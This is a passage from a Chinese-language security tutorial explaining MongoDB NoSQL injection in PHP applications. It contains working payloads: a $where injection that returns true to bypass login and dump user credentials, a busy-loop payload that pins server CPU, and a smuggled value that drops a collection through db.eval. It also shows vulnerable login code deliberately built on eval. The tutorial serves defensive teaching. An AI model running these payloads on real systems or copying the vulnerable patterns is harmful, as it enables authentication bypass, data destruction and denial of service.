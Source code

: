 进入 MongoDB 后执行的查询命令为：

```sql
> db.users.find({$where: "function() { var username = '1';var password = '1';return true;var a='1';if(username == 'admin' && password == '123456'){ return true; }else{ return false; }}"})
{ "_id" : ObjectId("60fa9c7b257f18542b68c4b8"), "username" : "admin", "password" : "123456" }
{ "_id" : ObjectId("60fa9c80257f18542b68c4b9"), "username" : "whoami", "password" : "657260" }
{ "_id" : ObjectId("60fa9c85257f18542b68c4ba"), "username" : "bunny", "password" : "964795" }
{ "_id" : ObjectId("60fa9c88257f18542b68c4bb"), "username" : "bob", "password" : "965379" }
>
```

我们从代码中可以看出，password 中的 `return true` 使得整个 JavaScript 代码提前结束并返回了 `true`，这样就构造出了一个永真的条件并完成了 NoSQL 注入。

此外还有一个类似于 DOS 攻击的 payload，可以让服务器 CPU 飙升到 100% 持续 5 秒：

```sql
username=1&password=1';(function(){var date = new Date(); do{curDate = new Date();}while(curDate-date<5000); return Math.max();})();var a='1
```

#### 使用 Command 方法造成的注入

MongoDB Driver 一般都提供直接执行 Shell 命令的方法，这些方式一般是不推荐使用的，但难免有人为了实现一些复杂的查询去使用。在 MongoDB 的服务器端可以通过 `db.eval` 方法来执行 JavaScript 脚本，如我们可以定义一个 JavaScript 函数，然后通过 `db.eval` 在服务器端来运行。

但是在 PHP 官网中就已经友情提醒了不要这样使用：

```sql
<?php
$m = new MongoDB\Driver\Manager;

// Don't do this!!!
$username = $_GET['field'];
// $username is set to "'); db.users.drop(); print('"

$cmd = new \MongoDB\Driver\Command( [
'eval' => "print('Hello, $username!');"
] );

$r = $m->executeCommand( 'dramio', $cmd );
?>
```

还有人喜欢用 Command 去实现 MongoDB 的 `distinct` 方法，如下：

```sql
<?php
$manager = new MongoDB\Driver\Manager("mongodb://127.0.0.1:27017");
$username = $_POST['username'];

$cmd = new MongoDB\Driver\Command( [
    'eval' => "db.users.distinct('username',{'username':'$username'})"
] );

$result = $manager->executeCommand('test.users', $cmd)->toArray();
$count = count($result);
if ($count > 0) {
    foreach ($result as $user) {
        $user = ((array)$user);
        echo '====Login Success====<br>';
        echo 'username:' . $user['username'] . '<br>';
        echo 'password:' . $user['password'] . '<br>';
    }
}
else{
    echo 'Login Failed';
}
?>
```